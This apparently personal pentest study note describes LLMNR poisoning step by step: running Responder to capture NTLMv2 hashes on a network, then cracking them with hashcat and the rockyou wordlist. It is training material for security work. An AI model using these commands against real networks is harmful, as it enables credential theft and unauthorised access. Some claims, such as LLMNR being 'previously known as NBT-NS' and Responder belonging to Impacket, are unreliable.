 # LLMNR Poisoning/Cracking Overview

## What is it?

* used to identify hosts when DNS fails
* previously known as NBT-NS

## Key Flaw

* service utilizes a users username and NTLMv2 hash when appropiately responded to as a response to us

![](../../.gitbook/assets/untitled.png)

## Gaining Access with LLMNR

### Step 1: Run Responder \(part of Impacket\)

```bash
ip a
#or
ifconfig #(note the interface)
```

```bash
python [Responder.py](http://responder.py/) -l tun0 -rdw
```

```bash
responder -I eth0 -rdw
```

* run first thing in the morning or at lunch so you can get a lot of traffic

### Step 2: Something has to cause DNS to Fail

* for example, someone typing out a wrong network drive

### Step 3: Get the NTLMv2 hashes

* Responder will give you the hashes \(saving with GEDIT is best\)
* downgrade Impacket or Responder if problems persist

### Step 4: Crack the hashes

```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
# put --force if it does not work
```

* if that does not work, try to crack with the hashcat.exe for Windows, easier to use
* GPU IS THE BEST WAY

## Other Password Lists

* [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

